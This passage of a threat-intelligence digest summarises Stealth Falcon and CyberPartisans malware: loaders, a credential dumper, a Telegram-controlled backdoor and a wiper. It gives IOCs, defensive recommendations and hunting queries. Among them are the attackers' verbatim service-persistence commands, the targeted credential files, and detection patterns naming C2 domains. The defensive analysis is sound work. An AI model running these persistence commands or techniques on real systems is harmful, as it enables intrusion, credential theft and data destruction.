    *   `upload`: Downloads a file from the C2 server to the client.
*   **Purpose:** The command list indicates that the Horus Agent's capabilities are intentionally limited, focusing on fingerprinting the victim's machine to assess its value and deploying next-stage payloads if the target is deemed worthwhile. This approach helps protect their more advanced custom post-exploitation tools.

**Older Apollo Agent (2022-2023):**
*   **Delivery:** Multi-stage loaders, often with `.cpl` (Control Panel file) extensions (e.g., `JeanLucPicardbrownie.cpl`), distributed via spear-phishing emails with links to remote WebDAV servers.
*   **Loader Functionality:** The CPL loaders decrypted embedded shellcode (XOR), spawned a suspended process (e.g., `C:\Windows\system32\WWAHost.exe`), injected and executed the shellcode. The shellcode then loaded a .NET-based loader, which finally loaded the customized Apollo implant.
*   **Artifact Cleanup:** One stage of the CPL loader removes the Windows WebDAV cache by deleting files in `%WINDIR%\ServiceProfiles\LocalService\AppData\Local\Temp\TfsStore\Tfs_DAV`.
*   **Obfuscation:** The Apollo implant itself was obfuscated with **ConfuserEx** using Control Flow and string obfuscations.
*   **Command Set:** Similar to Horus, with custom `config`, `survey`, `shinjectchunked`, and `shinjectstealth` commands. Horus is considered a more advanced, C++ rewritten, and refactored version of Apollo.

**Custom Post-Exploitation Tools:**
*   **DC Credential Dumper:**
    *   **Deployment:** Deployed by a loader similar to Horus, obfuscated with Code Visualizer, and manually maps `kernel32.dll` and `ntdll.dll`. It injects into `C:\Windows\System32\UserAccessBroker.exe`.
    *   **Technique:** Steals Active Directory and Domain Controller credential-related files by accessing a VHD (Virtual Hard Disk) copy of the system's disk (specifically `C:\ProgramData\ds_notifier_0.vhdx`), which bypasses file locks and standard security protections. The naming convention `ds_notifier` mimics legitimate Trend Micro components.
    *   **Target Files:** `Windows\NTDS\NTDS.dit`, `Windows\System32\Config\SAM`, `Windows\System32\Config\SYSTEM`. These files are crucial for extracting, decrypting, and abusing credentials.
    *   **Tools Used:** Uses the open-source .NET library **DiscUtils** to read and extract files from the VHD.
    *   **Output:** Compresses each extracted file using **Gzip** and bundles them into a single ZIP archive (`C:\ProgramData\ds_notifier_2.vif`).
    *   **Exfiltration:** This tool lacks C2 or exfiltration mechanisms and likely relies on another component to retrieve the archive. It supports logging to `%temp%\logfile.log`.
*   **Passive Backdoor (`usrprofscc.exe`):**
    *   **Characteristics:** A small C application designed to listen for incoming requests and execute shellcode payloads.
    *   **Obfuscation:** Mostly unobfuscated, with simple string encryption using a single key and addition operation. Contains two AES-encrypted data blobs for service information and network communication.
    *   **Running Modes:** `install` (creates a new service), `uninstall` (deletes/stops service), `debug` (manual call to main service function for testing). Requires admin permissions to install.
    *   **Persistence:** Installs as a service named `UsrProfSCC` with display name `User Profile Service Check` and description `This service checks for the service that supports user profile updating`.
    *   **Communication:** Creates a socket to listen for requests. Incoming requests are AES decrypted and validated. It can connect to a new socket or listen to a new socket based on the request. All network communication is AES encrypted.
    *   **Shellcode Execution:** Creates a thread to execute received shellcode. It can optionally create a pipe for sending back results of the shellcode.
*   **Keylogger (DLL `StatusReport.dll`):**
    *   **Delivery:** Delivered by a C++ loader DLL (`StatusReport.dll`).
    *   **Loader Obfuscation:** Uses simple XOR string decryption (some API imports remain unobfuscated, suggesting separate code additions) and API hashing.
    *   **Injection:** The loader impersonates `explorer.exe` by duplicating its token, then attempts to start `C:\Windows\system32\dxdiag.exe` using `CreateProcessAsUserA`, and finally writes shellcode into the newly created process. The shellcode (unencrypted in the DLL) then resolves imports, loads an embedded DLL, and calls its `_1` export.
    *   **Keylogger Functionality:** The keylogger DLL itself does not use API hashing. It sets up RC4 keys from a hard-coded one and decrypts its configuration using the RC4 key `667F879621D8F492`.
    *   **Data Logging:** Continuously writes all logged keystrokes to a file under `C:/windows/temp` (e.g., `~TN%LogName%.tmp`), encrypted with the RC4 key from its configuration.
    *   **Exfiltration:** Lacks C2 communication functionality, requiring another component to grab and exfiltrate the log file.

### Countries
*   **Middle East and Africa**
*   **Turkey**
*   **Qatar**
*   **Egypt**
*   **Yemen**

### Industries
*   **Government**
*   **Defense sectors**

### Recommendations
*   **Patching and Updates:** Ensure all systems are promptly patched, especially for critical vulnerabilities like CVE-2025-33053. Maintain regular updates for operating systems, applications, and security software.
*   **Email Security:** Implement robust email security gateways and solutions to detect and block spear-phishing emails, particularly those containing suspicious `.url`, `.lnk`, or `.zip` attachments, or links to unknown/suspicious external domains, especially WebDAV servers.
*   **Endpoint Detection and Response (EDR):** Deploy and configure EDR solutions to monitor for and detect suspicious process behavior, including:
    *   Unusual process ancestry (e.g., `iediagcmd.exe` or `CustomShellHost.exe` launched with network share `WorkingDirectory`, or `cmd.exe` executing `DeviceCredentialDeployment.exe` and `forfiles`).
    *   Memory injection or process hollowing into legitimate processes like `msedge.exe`, `WWAHost.exe`, `UserAccessBroker.exe`, or `dxdiag.exe`.
    *   Attempts by applications to manually map DLLs (e.g., `kernel32.dll`, `ntdll.dll`).
    *   Detection of commercial obfuscators like Themida or Code Virtualizer.
    *   Creation of suspicious files such as `.vhdx` files (e.g., `C:\ProgramData\ds_notifier_0.vhdx`), `.vif` archives (e.g., `C:\ProgramData\ds_notifier_2.vif`), or keylogger output files in temporary directories (e.g., `C:/windows/temp/~TN%LogName%.tmp`).
    *   Attempts to create new services with unusual names or descriptions (e.g., `UsrProfSCC`).
*   **Network Monitoring:** Monitor network traffic for suspicious C2 communications, including:
    *   Connections to known malicious domains used by Stealth Falcon.
    *   Unusual outbound HTTP/HTTPS requests that align with Mythic C2 communication patterns (e.g., Base64-encoded, AES-encrypted JSON data in query strings).
    *   Direct UNC path access to external WebDAV servers.
    *   Unexpected listening ports/sockets, indicative of passive backdoors.
*   **Application Control/Whitelisting:** Implement application control or whitelisting policies to prevent unauthorized executables and scripts, especially those running from temporary or unusual locations, from executing.
*   **User Awareness Training:** Conduct regular training for employees on recognizing and reporting spear-phishing attempts, suspicious attachments, and unusual links.
*   **Leverage Threat Intelligence:** Integrate and actively use threat intelligence feeds, including IOCs and TTPs from reports like this, into security monitoring and detection systems. Check Point Threat Emulation, Intrusion Prevention System, and Harmony Endpoint are noted to provide comprehensive coverage.

### Hunting methods
While specific Yara, Sigma, KQL, SPL, IDS/IPS, or WAF rules are not provided in the source, the detailed TTPs allow for the construction of effective hunting queries.

**Logic for Hunting Queries:**

*   **Initial Access & LOLBin Abuse:**
    *   Look for `.url` or `.lnk` files, especially in conjunction with email attachments, that point to network paths (e.g., `\\` or `http(s)://`) or execute specific LOLBins.
    *   Monitor for `iediagcmd.exe` or `CustomShellHost.exe` being executed with `WorkingDirectory` parameters pointing to network shares.
    *   Detect `cmd.exe` executing complex commands involving `DeviceCredentialDeployment.exe`, `pushd` to network shares, and `forfiles` with remote execution paths.
*   **Malware Execution & Persistence:**
    *   Hunt for processes exhibiting characteristics of the Horus Loader:
        *   Files identified as `route.exe` that are not in `C:\Windows\System32` or are signed with an outdated certificate from "Danielle D Festa".
        *   Processes performing manual DLL mapping of `kernel32.dll` or `ntdll.dll`.
        *   Processes scanning for numerous antivirus vendor processes (e.g., `avp.exe`, `AvastSvc.exe`, `AVGSvc.exe`, `ccSvcHst.exe`).
    *   Look for suspicious process injection patterns:
        *   `msedge.exe`, `WWAHost.exe`, `UserAccessBroker.exe`, or `dxdiag.exe` spawned in a suspended state, followed by memory allocation (e.g., `ZwAllocateVirtualMemory`), writing (`ZwWriteVirtualMemory`), and remote thread creation (`CreateRemoteThread`, `NtResumeThread`).
        *   Shellcode injection that checks for Sophos processes (e.g., `ALsvc.exe`, `hmpalert.exe`) before performing in-process or remote injection.
    *   Monitor for service creation:
        *   New services with the name `UsrProfSCC` and display name `User Profile Service Check`.
        *   New services attempting to open listening sockets for communication.
*   **Artifacts & Data Exfiltration:**
    *   Search for temporary files matching the lure PDF names (e.g., `TLM.005_TELESKOPIK_MAST_HASAR_BILDIRIM_RAPORU.pdf`) in `%temp%` that were recently created.
    *   Look for `.vhdx` files (specifically `ds_notifier_0.vhdx`) and `.vif` files (e.g., `ds_notifier_2.vif`) in `C:\ProgramData`, which indicate the credential dumper's activity.
    *   Detect the creation of keylogger log files (e.g., `~TN%LogName%.tmp`) in `C:\Windows\Temp`.
    *   Monitor for deletion of the WebDAV cache directory: `%WINDIR%\ServiceProfiles\LocalService\AppData\Local\Temp\TfsStore\Tfs_DAV`.
*   **C2 Communication:**
    *   Inspect network connections for traffic to the identified malicious domains.
    *   Analyze HTTP/HTTPS traffic for `GET` requests containing unusually long, Base64-encoded query parameters, or `POST` requests with Base64-encoded bodies, which may indicate Mythic C2 communication. Specifically, look for requests to `/PjH1BHszPooXyiHS3s?jNNsw=`.
    *   Look for JSON structures in network payloads (after decryption, if possible) containing `{"action":"checkin", ...}` or `{"status":"success","id":"[semicolon-separated bot UID]","action":"checkin"}`.

**Example Hunting Queries (Conceptual, not specific to any tool syntax):**

**Windows Event Log / EDR Query (e.g., KQL for Azure Sentinel or Elastic Query Language):**
```
// Hunting for .url or .lnk execution with WebDAV working directory
(
    Event.ID = "Process Creation" AND 
    (Process.CommandLine CONTAINS ".url" OR Process.CommandLine CONTAINS ".lnk") AND
    Process.CommandLine CONTAINS "WorkingDirectory=\\\\"
) OR 
(
    Event.ID = "Process Creation" AND 
    Process.ImagePath ENDSWITH "\\iediagcmd.exe" AND 
    Process.CommandLine CONTAINS "WorkingDirectory=\\\\"
) OR
(
    Event.ID = "Process Creation" AND 
    Process.ImagePath ENDSWITH "\\CustomShellHost.exe" AND 
    Process.CommandLine CONTAINS "WorkingDirectory=\\\\" AND 
    Process.CommandLine CONTAINS "explorer.exe"
)

// Hunting for specific LOLBin chaining
(
    Event.ID = "Process Creation" AND 
    Process.CommandLine CONTAINS "cmd /c DeviceCredentialDep^loyment" AND 
    Process.CommandLine CONTAINS "pushd \\\\" AND 
    Process.CommandLine CONTAINS "forfiles" AND 
    Process.CommandLine CONTAINS ".bps"
)

// Hunting for suspicious file creations by credential dumper or keylogger
(
    Event.ID = "File Creation" AND 
    (File.Path CONTAINS "\\ProgramData\\ds_notifier_0.vhdx" OR 
     File.Path CONTAINS "\\ProgramData\\ds_notifier_2.vif" OR 
     File.Path CONTAINS "\\Windows\\Temp\\~TN%LogName%.tmp")
)

// Hunting for service creation by passive backdoor
(
    Event.ID = "Service Creation" AND 
    Service.Name = "UsrProfSCC" AND 
    Service.DisplayName = "User Profile Service Check"
)

// Hunting for processes attempting anti-analysis/AV checks (conceptual, may require deeper telemetry)
(
    Event.ID = "Process Access" AND 
    TargetProcess.Name IN ("avp.exe", "AvastSvc.exe", "AVGSvc.exe", "ccSvcHst.exe", "ALsvc.exe", "hmpalert.exe", "SEDService.exe", "Sophos UI.exe", "SophosIPS.exe") AND 
    SourceProcess.Image NOT IN ("C:\\Windows\\System32\\svchost.exe", "C:\\Program Files\\Windows Defender\\MsMpEng.exe") // Exclude legitimate AV interactions
)
```

**Network Monitoring (e.g., IDS/IPS or SIEM Network Logs):**
```
// Hunting for C2 communication to known domains
(
    Network.Destination.Domain IN ("roundedbullets[.]com", "summerartcamp[.]net", "downloadessays[.]net", "joinushealth[.]com", "healthherofit[.]com", "worryfreetransport[.]com", "radiotimesignal[.]com", "fastfilebackup[.]com", "cyclingonlineshop[.]com", "luxuryfitnesslabs[.]com", "purvoyage[.]com", "mystartupblog[.]com") AND
    (Network.Protocol = "HTTP" OR Network.Protocol = "HTTPS")
)

// Hunting for Mythic C2 GET requests patterns
(
    Network.Destination.Port IN ("80", "443") AND
    Network.HTTP.Method = "GET" AND
    Network.HTTP.URL_Path LIKE "/PjH1BHszPooXyiHS3s?jNNsw=*" AND // Specific endpoint from Horus Agent
    Network.HTTP.Query_String IS NOT NULL AND
    LENGTH(Network.HTTP.Query_String) > 200 // Look for long, base64-encoded query strings
)
```

### IOC

**Hashes**
```
ba5beb189d6e1811605b0a4986b232108d6193dcf09e5b2a603ea4448e6f263c
e0a44274d5eb01a0379894bb59b166c1482a23fede1f0ee05e8bf4f7e4e2fcc6
da3bb6e38b3f4d83e69d31783f00c10ce062abd008e81e983a9bd4317a9482aa
ddce79afe9f67b78e83f6e530c3e03265533eb3f4530e7c89fdc357f7093a80b
1d95a44f341435da50878eea1ec0a1aab6ae0ee91644c497378266290a6ef1d8
700b422556f070325b327325e31ddf597f98cc319f29ef8638c7b0508c632cee
aa612f53e03539cdc8f8a94deee7bf31f0ac10734bb9301f4506b9113c691c97
66a893728a0ac1a7fae39ee134ad4182d674e719219fbf5d9b7cd4fd4f07f535
cd6335101e0187c33a78a316885a2cbf4cbbd2a72daf64a086edb4a2615749fb
257c63a9e21b829bb4b9f8b0e352379444b0e573176530107a3e6c279d1919da
5671b3a89c0e88a9bfb0bd5bc434fa5245578becfdeb284f4796f65eecbd6f15
3259ecfb96d3d7e2d1a782b01073e02b3488a3922fd2fd35c20eeb5f44b292ec
8065c85e387654cb79a12405ff0f99fd4ddd5a5d3b9876986b82822bd10c716f
0598e1af6466b0813030d44fa64616eea7f83957d70f2f48376202c3179bd6b1
f270202cd88b045630f6d2dec6d5823aa08aa66949b9ccd20f6e924c7992fea7
092c344330bd5cba71377dead11946f7277f2dd4af57f5b636b70b343bc7ebe0
dc7cb53c5dc2e756822328a7144c29318cb871890727eff9c8da64a01e8e782d
db7364296cc8f78981797ffb2af7063bba97e2f6631c29215d59f4979f8b4fce
4e045c83cf429210e71e324adccad8818540b9805a44c8d79a8c16c3d5f6fbb6
62797e28a334e392cb56fcc26dd07f04ac031110f0e9ed8489ec0825beea75eb
dec6dda0559e381c23f1dfbe92fa4705c8455430f8278c78c170a7533b703296
32f2773ceb6503f8a1c3e456d34ceda5c188974a115e5225a1315e7ec3f8eb5e
50a2b6c1b0a0d308e8016aece9629c1bf6ca4ecc6f4cef34c904e9c3e82355fb
9ed8f51548a004ac61b7176df12a0064dc3096088cbf3c644a9abdb5c92936f7
9a82e21c2463d6c23a48409a862e668ed9c205468d216d2280f7debe1ab1ddd8
46c95af6fea41b55fa0ab919ec81d38a584e32a519f85812fe79a5379457f111
c5b00e8312e801dc35652c631a14270ed4eec8f6d90d08cdde3c6e7fd1ec24b6
3b83250383c2a892e0ca86e54fcc6aca9960fc4b425ab9853611ff3e5aa2f9c6
8291b886cce1f0474db5b3dc269adf31d1659b7d949f62ea23608409d14b9ceb
```

**Domains**
```
roundedbullets[.]com
summerartcamp[.]net
downloadessays[.]net
joinushealth[.]com
healthherofit[.]com
worryfreetransport[.]com
radiotimesignal[.]com
fastfilebackup[.]com
cyclingonlineshop[.]com
luxuryfitnesslabs[.]com
purvoyage[.]com
mystartupblog[.]com
```

**Original link:** [https://research.checkpoint.com/2025/stealth-falcon-zero-day/](https://research.checkpoint.com/2025/stealth-falcon-zero-day/)

## TTPs of CyberPartisans Group Espionage and Destabilization

### Summary
The CyberPartisans are a publicly active hacktivist group that emerged in 2020. They have repeatedly claimed responsibility for attacks on state institutions and industrial enterprises in Russia and Belarus, with the stated goals of stealing confidential information and destabilizing IT infrastructure. Kaspersky ICS CERT has analyzed the malware and utilities likely used in recent attacks, revealing a sophisticated approach that includes previously unknown backdoors and wipers. The group leverages social media to announce their operations, although some of their public claims, such as data encryption, have been found to contradict their actual malware capabilities, which involve data destruction via wipers. Their initial infection vector is predominantly **phishing emails**, despite their claims of using other methods like vulnerability exploitation or insider recruitment. A notable aspect of their strategy is the deployment of "bombs" – pre-installed malicious programs that activate automatically based on set parameters, such as a specific date and time, designed to re-disrupt IT infrastructure after initial recovery efforts. Indirect evidence suggests a potential collaboration with the "IT Army of Ukraine".

### Technical Details
The CyberPartisans employ a multi-stage attack methodology, starting with initial access, establishing persistence, moving laterally, collecting data, and culminating in data destruction or further destabilization. Their toolkit largely comprises **open-source utilities**, often used without modification, alongside custom-developed malware designed to evade detection and analysis.

**Initial Access and Persistence:**
The primary initial access vector observed is **phishing emails**. These emails contain an installer that, in addition to installing the legitimate **FortiClient VPN** program, stealthily deploys the **DNSCat2** utility.

**DNSCat2 Deployment and Functionality:**
*   Upon execution of the installer, DNSCat2 is unpacked to `C:\Windows\System32\FortiGateUpdate.dll`, along with `C:\Windows\System32\FortiGateUpdate.manifest` containing an encryption key.
*   Initially, the encryption key used is a less secure, generic string like `FortiGateUpdate`. In later stages of the attack, for lateral movement, they create a specialized build of DNSCat2 where the decryption key is the **name of the targeted computer**, making analysis without context significantly harder.
*   The malicious installer establishes persistence by creating a Windows service named **`FortiGateUpdate`** set to `start=auto`. This service is configured to load `FortiGateUpdate.dll` (DNSCat2) via `svchost.exe` by adding specific registry keys. The display name for the service is set to `FortiGateUpdate Service`.
*   **Commands Observed for Installation:**
    *   `sc create FortiGateUpdate binPath= «C:\Windows\System32\svchost.exe -k FortiGateUpdate» type= share start= auto`
    *   `reg add HKLM\SYSTEM\CurrentControlSet\services\FortiGateUpdate\Parameters /v ServiceDll /t REG_EXPAND_SZ /d c:\Windows\System32\FortiGateUpdate.dll /f`
    *   `reg add «HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Svchost» /v FortiGateUpdate /t REG_MULTI_SZ /d FortiGateUpdate /f`
    *   `reg add HKLM\SYSTEM\CurrentControlSet\services\FortiGateUpdate\Parameters /v ServiceMain /t REG_SZ /d InitHelperDll@8 /f`
    *   `net start FortiGateUpdate`
    *   `sc config FortiGateUpdate DisplayName= «FortiGateUpdate Service»`
    *   `sc failure FortiGateUpdate actions= restart/60000/restart/120000/ restart/240000 reset= 1`
    *   `sc failureflag FortiGateUpdate 1`
*   DNSCat2 is a **full-featured backdoor** allowing remote system control, uniquely leveraging the **DNS protocol for command-and-control (C2) communication** to bypass network segmentation and detection systems.
*   The malware employs **dynamic import of functions by hashes** to obscure its true functionality, a technique also seen in their Vasilek backdoor.
*   Its custom obfuscator uses the system's hash as a decryption key for strings, including API function names, making automated analysis challenging.
*   **Supported DNSCat2 Commands:**
    *   `echo`: Send message to client for connection verification or debugging.
    *   `help`: Display list of available commands and descriptions.
    *   `kill`: Close specified window or tunnel (server-side).
    *   `quit`: End session and exit utility.
    *   `set`: Set settings or parameters.
    *   `start`: Open a new tunnel or session.
    *   `stop`: Stop specified tunnel or session (client-side).
    *   `tunnels`: Display list of active tunnels.
    *   `unset`: Remove configuration parameters.
    *   `window`: Select given session window (server-side).
    *   `windows`: Show active session window (server-side).
*   **Traffic Encryption:** DNSCat2 typically uses **Salsa20** encryption with **Elliptic Curve Diffie-Hellman (ECDH)** for key exchange. However, in one observed instance, traffic was unencrypted, potentially due to operator error, which allowed for decryption of commands.
*   DNSCat2 often **masquerades its process name**, for example, as `amdfendrsr` (AMD Crash Defender Service).

**Network Reconnaissance (Seekdns):**
*   To identify available proxy servers within large compromised networks, the threat actors developed a specialized utility named **Seekdns**.
*   Seekdns scans specified **CIDR ranges** for open DNS servers (port 53) and verifies responses by requesting an A-record for a given domain name.
*   **Command Line Arguments for Seekdns:**
    *   `CIDR range`: IP address range to scan.
    *   `Domain name`: Domain for which to request an A-record.

**Vasilek Backdoor:**
*   **Key Feature:** Vasilek is a previously unknown backdoor that uniquely uses a **Telegram group for command-and-control (C2)**, receiving commands and sending execution results through the messenger.
*   **Loader Mechanism:** The Vasilek loader module is designed to load and launch the main Vasilek module with specified user privileges using **token impersonation**.
*   **Privilege Escalation:** If no user session ID is provided as an argument, the malware enumerates **active RDP sessions** to extract information about connected users and their session IDs, potentially identifying privileged administrator sessions. The loader then duplicates and copies the privileged user's token to run the main Vasilek module with elevated rights.
*   **Code Hiding:** Similar to DNSCat2, Vasilek uses **dynamic API function import by hashes** and a custom hashing algorithm (ROL4 with a 13-bit shift) to conceal its activities.
*   **Targeted Execution:** Vasilek includes a mechanism to ensure it only runs on target systems. It computes a **SHA256 hash of the infected machine's name (with salt)** and compares it to a hardcoded value. If they don't match, the malware terminates, preventing execution in sandboxes or non-target environments and prolonging detection.
*   **Configuration:** Vasilek can load settings from a configuration file named `new.bak` located in the same directory as the main module, allowing for proxy server settings, defaulting to system-wide settings if not specified. Environment variables are used for settings.
*   **Telegram Communication Details:**
    *   It uses the Telegram `getUpdates` API function with a hardcoded `bot_id` token.
    *   If the `CLEAR_OLD_UPDATES` environment variable is `1`, it retrieves a new `chat_id` (Telegram group ID) by requesting the latest unread messages; otherwise, it uses a hardcoded `chat_id`.
    *   The attackers pre-add their bot to the target Telegram chat.
*   **Supported Vasilek Commands (Extensive List):**
    *   `document`: Download specified file from Telegram chat.
    *   `kill`: Terminate process with specified PID.
    *   `kill_except`: Terminate process with specified PID, verifying it's not the malware process.
    *   `dwl`: Send specified file to Telegram chat.
    *   `c`: Execute command via command line on all bot instances in the Telegram chat.
    *   `ci`: Execute command via command line on a specific infected system (identified by malware process PID).
    *   `cl`: Repeatedly execute command with specified delay and attempts.
    *   `cil`: Combination of `ci` and `cl`.
    *   `reset`: Restart `cmd.exe` process.
    *   `v`: Send system information (malware version, computer name, executable path, command line arguments, working directory, CPU architecture, PID, current Telegram chat ID, system codepage).
    *   `update`: Receive new data for `new.bak` configuration file.
    *   `cr`: Execute command via command line without getting results.
    *   `sleep`: Pause execution for specified time.
    *   `sleep_except`: Pause execution for specified time.
    *   `wget`: Download file from specified URL.
    *   `restart`: Restart malware process.
    *   `cpr`: Create new process with given command line arguments.
    *   `cpri`: Create new process via `CreateProcessA` function.
    *   `screenshot`: Take screenshot and send to Telegram chat as `screenshot.png`.
    *   `#UPLOAD`: Upload binary data to specified file, then send "Fileuploaded" or "Fileuploadfailed" message.
    *   `accum_delay`: Set time interval between command executions.
    *   `flush`: No action (likely unimplemented).
    *   `key_on`: Activate keylogger, record key codes to `keys.txt`, then send to Telegram chat.
    *   `key_off`: Deactivate keylogger.
    *   `key_flush`: Clear keylogger buffer.
    *   `click`/`lclick`/`rclick`/`double_click`: Simulate mouse clicks at specified coordinates.
    *   `wake_up`: Send "Alreadyawake" message to Telegram chat.
    *   `prevent_sleep`: Block system sleep for specified seconds.
    *   `mute`/`unmute`: Not implemented.
    *   `track_window`: Enable transmission of active window information (process name, executable path, window title).
    *   `screenshots_track`/`screenshots_cycle`: Similar to `track_window`, but also sends active window screenshots.
*   **Observed Usage:** Vasilek has been actively used for **information gathering** (keylogs, screenshots) and **network infrastructure data collection**.

**Pryanik Wiper (Logical Bomb):**
*   **Activation Mechanism:** Pryanik functions as a **logical bomb**, activating its destructive capabilities on a specific date and time. It calculates a hash value based on the string "Windows" and the system's current date and time (year, month, day). This hash is compared against a constant value `0x6C6B1F34`. This condition allows activation approximately once a month (e.g., 18.03.2024, 17.04.2024, 16.05.2024).
*   The first observed activation coincided with reports of an attack on a fertilizer production plant on **April 17, 2024**.
*   **Time-Based Activation:** After the date check, the wiper verifies the system time, delaying execution until the hour and minute fields are zero. The first activation occurs at **01:01 UTC**. This tactic is often used by ransomware groups to strike when qualified personnel are less likely to be present.
*   **Privilege Escalation (BYOVD):** To achieve **kernel-level privileges**, Pryanik uses the **Bring Your Own Vulnerable Driver (BYOVD)** technique. It exploits **CVE-2021-31728** in two versions of the Zemana Anti-Malware driver (x86 and x64).
*   **Driver Deployment:** The appropriate driver version is copied to the Windows folder with a **random 8-character name** (e.g., `PWWXXXYY.sys`). The file's timestamps are set to `09.08.2020 16:31:13 UTC+3` to hide its recent creation. A service is then created to load and launch the vulnerable driver.
*   **Defense Evasion:**
    *   The wiper identifies and **terminates processes associated with security solutions** by hashing their executable names and sending control codes to the loaded vulnerable driver.
    *   It **clears Windows event logs** (System, Security, Application) using the `wevtutil.exe` utility.
*   **Data Destruction:**
    *   Pryanik obtains disk geometry details by sending an IOCTL to the vulnerable driver.
    *   It then sends another IOCTL that causes **data loss in a specified disk area**. The `SectorBuffer` structure dictates the starting offset, which is calculated as `<connected storage device number> * 28`, resulting in an LBA block number.
    *   The wiper overwrites 128 MB blocks (200h * 100h = 131,072 bytes). This class of malware is a **wiper**, not a ransomware, meaning data recovery is impossible even if attackers' demands are met, contradicting their public claims of encryption.

**Post-Exploitation and Lateral Movement Tools:**
The group extensively uses a wide array of open-source tools for internal network reconnaissance, credential theft, remote access, and traffic tunneling.
*   **Full-featured Post-Exploitation Frameworks:**
    *   **Metasploit Framework:** A well-known penetration testing tool, used for scanning, vulnerability exploitation, and creating payloads like the **Meterpreter backdoor** for remote shell access.
    *   **Indirect Evidence:** SharpSploit, Cobalt Strike, and Sliver may also have been used.
*   **Credential Theft Tools:**
    *   **Mimikatz:** Used to extract Windows user account credentials cached in memory, specifically from the `lsass.exe` process.
    *   **Defense Evasion:** They employ the **`Invoke-ReflectivePEInjection`** technique, a PowerShell script based on PowerSploit, to load and execute Mimikatz directly into memory without writing it to disk.
*   **Remote Access Tools:**
    *   **Modified VNC-server (TightVNC-based):** A version integrated into Metasploit Framework that can be loaded into memory via **reflective loading**, providing a graphical interface for remote access.
    *   **Aspia Remote Desktop:** Supports both internet (by ID) and local network direct connections, including access to devices behind NAT.
    *   **PSExec:** A Microsoft Sysinternals utility for remote execution. It copies `PsExesvc.exe` (or a default name) to the remote `ADMIN$` share via SMB, creates a service via RPC to launch the executable, and establishes named pipes (e.g., `RemCom` or `psexesvc`) for a remote shell.
*   **Tunneling and Proxying Utilities:** Used to obscure malicious network traffic and enable communication with isolated systems within the victim's network. Compromised internal systems are used as proxy servers.
    *   **3proxy:** An open-source proxy server supporting HTTP, SOCKS4/5, FTP, SMTP, HTTPS, various authentication types, traffic filtering, and logging. Observed samples had encrypted strings, with decryption keys `ABCDEF` or `Knondiv1Rabbit`, and typically listened on **TCP port 47135**.
    *   **Gost:** A versatile utility for proxying and tunneling, capable of creating multi-hop proxy chains with diverse protocols and obfuscation methods (HTTP, HTTP2, SOCKS, Shadowsocks, SNI, Forward, Relay, TCP, TLS, Multiplexed TLS, WebSocket, KCP, QUIC, SSH, OBFS4 for Tor).
*   **Evlx:** A utility for deleting Windows event logs, either fully or selectively based on criteria. It can also disable the Windows logging service and self-delete.

**Attribution and Infrastructure:**
*   Analysis of Vasilek samples revealed configuration data, including Telegram bot tokens.
*   User accounts interacting with these bots were identified, and one account was found in Telegram groups associated with the "IT Army of Ukraine," suggesting potential links or collaboration.
*   **DNS C2 Domains for DNSCat2:**
    *   `w.3a01[.]net`
    *   `c.0ce[.]org`
    *   `p.7cp[.]org`
    *   `gov-by[.]com` (uses CloudFlare)
    *   `f.91j[.]org` (uses CloudFlare)
    *   `in.vmware.org[.]mx` (uses CloudFlare)
    *   `ns.p-society[.]org` (uses CloudFlare)

### Countries
*   Russia
*   Belarus

### Industries
*   State institutions
*   Industrial enterprises
*   Fertiliser production enterprise

### Recommendations
**Immediate Actions upon Compromise:**
*   **Isolate Compromised Systems/Networks**: Immediately isolate the compromised subnet or disconnect the entire corporate network from the internet to contain the incident.
*   **Monitor Suspicious Activity**: Conduct active monitoring for:
    *   **Anomalously large numbers of DNS queries**.
    *   **Outgoing VPN connections**.
    *   **Activity of remote administration utilities**.
    *   **Frequent attempts to connect to messenger API servers** (e.g., Telegram).
    *   **Attempts to scan the organization's network**.
    *   **Attempts to establish connections between internal systems on non-standard ports**.
*   **Password Reset**: Change all passwords for domain user and computer accounts. For the `krbtgt` domain service account, change the password twice with a minimal time interval between changes to prevent Golden Ticket attacks.
*   **Restore Security Solutions**: Perform an urgent reboot of workstations and servers to reactivate security solutions that may have been disabled by the attackers.
*   **Verify Security Solution Status**: Ensure security solutions are running on all systems, all modules are enabled, databases and software modules are up-to-date, and Kaspersky Security Network (KSN) technologies are utilized where not restricted by regulations. KSN access should be restricted via KSN Proxy from Kaspersky Security Center.
*   **Full Antivirus Scan**: Immediately initiate a full antivirus scan on all systems.

**Preventive Measures:**
*   **SIEM Correlation Rules**: Enhance existing SIEM systems with correlation rules for:
    *   Installation of new drivers in the system.
    *   Successful administrator user authorization on a new system.
    *   Creation of new Windows services.
    *   Termination of security solution processes.
    *   Appearance of hidden users in the system.
    *   Clearing of Windows event logs.
    *   Disabling of the Windows logging service.
    *   Detection of PSExec utility launch events and similar tools.
*   **Email Content Filtering**: Configure email content filtering to automatically remove executable files from incoming messages (especially from external sources). Implement multi-layered inbound email traffic filtering.
*   **Principle of Least Privilege**: Implement a practice where regular domain user accounts do not have local administrator rights to reduce privilege escalation risks.
*   **Restrict Remote Administration Tools**: Configure security solutions to block the launch of unauthorized remote administration utilities.
*   **Endpoint Security**: Install and regularly update centralized security solutions on all servers and workstations. Ensure all components are enabled and policies prevent disabling protection or termination without an administrator password. For technological networks, use specialized solutions like KICS for Nodes.
*   **System Updates**: Update operating systems to manufacturer-supported versions and install all security updates (patches) for OS and applications, paying special attention to internet-facing services and hypervisors.
*   **Network Segmentation**: Strengthen network segmentation by dividing different departments or enterprises into separate segments. Restrict data transfer between segments to the minimum required ports and protocols.
*   **Access Control**: Ensure Active Directory policies restrict user login attempts. Users should only have access to systems necessary for their job functions. Limit RDP and SMB usage with Access Control Lists (ACLs).
*   **Privileged Account Management**: Require administrators to use privileged accounts only when essential. Recommend dedicated privileged accounts for administering different system groups (e.g., database servers, mail servers).
*   **Password Policies**: Enforce strong password policies:
    *   Minimum length: at least **12 characters** for unprivileged, **16 characters** for privileged accounts.
    *   Complexity: Must include uppercase, lowercase, numbers, and special characters (`! @ # $ % ^ & * ( ) – _ + = ~ [ ] { } | \ : ; ‘ ” < > , . ? /`).
    *   Prohibited content: No dictionary words, personal data (name, phone, birthdate), sequential keyboard characters (e.g., 12345678, QWERTY), or common abbreviations (USER, TEST, ADMIN).
    *   Expiry: Passwords should expire every **90 days**.
    *   Storage: Prohibit storing or transmitting passwords in plain text; use dedicated **password managers**.
*   **SIEM Deployment**: Deploy a Security Information and Event Management (SIEM) system (e.g., Kaspersky Unified Monitoring and Analysis Platform).
*   **Backup Strategy**:
    *   Store backups on a **separate server not part of the domain**, with deletion/modification rights only for a dedicated account also outside the domain.
    *   Increase backup frequency to avoid critical data loss.
